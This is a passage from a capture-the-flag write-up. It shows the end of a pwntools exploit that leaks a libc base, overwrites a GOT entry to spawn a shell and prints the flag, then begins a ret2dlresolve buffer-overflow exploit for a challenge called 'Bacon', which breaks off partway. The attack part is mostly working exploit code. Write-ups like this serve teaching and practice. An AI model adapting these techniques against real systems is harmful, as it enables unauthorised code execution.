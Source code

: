 ```py
libc_base = int(io.recvn(14),0) - 0x0e5be0

io.recvuntil('write to?\n')
io.sendline(hex(exe.got['strtoull']))
io.recvuntil('write?\n')
io.sendline(hex(libc_base+0x0554e0))

io.recvuntil('write to?\n')
io.sendline('/bin/sh\x00')
io.interactive()
#flag{one_write_two_write_good_write_bad_write}
```

## Bacon
points - 200
A breakfast isn't complete without bacon.

Connect with:
nc jh2i.com 50032

This was again yet anthor bufferoverflow, no-libc provided, no printfunction in the binary, NO-PIE, part-Relro, so i used ret2_dlresolve, There are lots of resources available for ret2_dlresolve.

#### exploit
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./bacon')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50032)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

# -- Exploit goes here --

io = start()

resolver = 0x8049030
```